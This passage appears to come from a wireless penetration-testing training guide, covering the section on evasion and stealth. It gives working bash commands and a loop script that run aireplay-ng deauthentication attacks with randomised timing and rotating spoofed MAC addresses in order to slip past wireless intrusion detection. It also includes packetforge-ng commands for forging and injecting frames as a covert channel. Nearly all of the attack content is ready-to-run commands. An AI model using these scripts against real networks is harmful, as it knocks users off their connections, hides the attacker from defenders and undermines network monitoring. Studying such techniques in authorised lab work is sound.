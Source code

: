 
## 🛡️ Phase 4: Evasion and Stealth

### **Exercise 4.1: Advanced Evasion Techniques**

**Objective**: Avoid detection by wireless intrusion detection systems.

**Traffic Shaping**:
```bash
# Slow injection to avoid detection
aireplay-ng -0 1 -a 00:11:22:33:44:55 wlan0mon
sleep 30
aireplay-ng -0 1 -a 00:11:22:33:44:55 wlan0mon
sleep 45
# Continue with random delays
```

**MAC Address Cycling**:
```bash
# Script for MAC rotation
#!/bin/bash
for i in {1..100}; do
    # Generate random MAC
    mac=$(printf '00:11:22:%02x:%02x:%02x' $((RANDOM%256)) $((RANDOM%256)) $((RANDOM%256)))
    
    # Change MAC address
    sudo ifconfig wlan0mon down
    sudo macchanger -m $mac wlan0mon
    sudo ifconfig wlan0mon up
    
    # Perform attack
    aireplay-ng -0 1 -a 00:11:22:33:44:55 wlan0mon
    
    # Wait before next iteration
    sleep $((RANDOM % 60 + 30))
done
```

**Packet Timing Manipulation**:
```bash
# Variable timing injection
aireplay-ng -0 5 -a 00:11:22:33:44:55 --delay $((RANDOM % 2000 + 500)) wlan0mon
```

### **Exercise 4.2: Covert Channels**

**Objective**: Use wireless networks for covert communication.

**Beacon Frame Covert Channel**:
```bash
# Create covert beacon frames
packetforge-ng -0 -a 00:11:22:33:44:55 -h 66:77:88:99:AA:BB -k 192.168.1.1 -l 192.168.1.100 -y fragment.xor -w covert.cap

# Inject covert data
aireplay-ng -2 -r covert.cap wlan0mon
```

---
